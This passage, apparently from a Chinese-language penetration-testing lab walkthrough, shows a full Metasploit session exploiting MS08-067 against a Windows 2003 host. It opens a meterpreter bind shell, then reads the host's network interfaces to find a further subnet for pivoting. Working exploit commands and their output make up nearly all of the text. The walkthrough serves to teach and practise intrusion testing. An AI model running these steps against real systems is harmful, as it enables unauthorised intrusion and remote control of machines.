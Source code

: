 或者用ms08067:

```
msf &gt; use exploit/windows/smb/ms08_067_netapi 
msf exploit(ms08_067_netapi) &gt; show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST                     yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) &gt; set rhost 7.7.7.20rhost =&gt; 7.7.7.20msf exploit(ms08_067_netapi) &gt; set payload windows/meterpreter/bind_tcp
payload =&gt; windows/meterpreter/bind_tcp
msf exploit(ms08_067_netapi) &gt; show options 
Module options (exploit/windows/smb/ms08_067_netapi):
   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOST    7.7.7.20         yes       The target address
   RPORT    445              yes       The SMB service port
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)
Payload options (windows/meterpreter/bind_tcp):
   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LPORT     4444             yes       The listen port
   RHOST     7.7.7.20         no        The target address
Exploit target:
   Id  Name
   --  ----   0   Automatic Targeting
msf exploit(ms08_067_netapi) &gt; run
[*] Started bind handler
[*] 7.7.7.20:445 - Automatically detecting the target...
[*] 7.7.7.20:445 - Fingerprint: Windows 2003 - Service Pack 2 - lang:Unknown
[*] 7.7.7.20:445 - We could not detect the language pack, defaulting to English
[*] 7.7.7.20:445 - Selected Target: Windows 2003 SP2 English (NX)
[*] 7.7.7.20:445 - Attempting to trigger the vulnerability...
[*] Sending stage (957999 bytes) to 7.7.7.20[*] Meterpreter session 2 opened (172.16.0.20-172.16.0.11:0 -&gt; 7.7.7.20:4444) 
meterpreter &gt;
```

成功溢出getshell后查看JC(7.7.7.20)网卡信息:

```
meterpreter &gt; ipconfigInterface  1============Name         : MS TCP Loopback interfaceHardware MAC : 00:00:00:00:00:00MTU          : 1520IPv4 Address : 127.0.0.1Interface 65539============Name         : Intel(R) PRO/1000 MT Desktop AdapterHardware MAC : 08:00:27:29:cd:cbMTU          : 1500IPv4 Address : 8.8.8.3IPv4 Netmask : 255.255.255.0Interface 65540============Name         : Intel(R) PRO/1000 MT Desktop Adapter #2Hardware MAC : 08:00:27:e3:47:43MTU          : 1500IPv4 Address : 7.7.7.20IPv4 Netmask : 255.255.255.0meterpreter &gt;
```
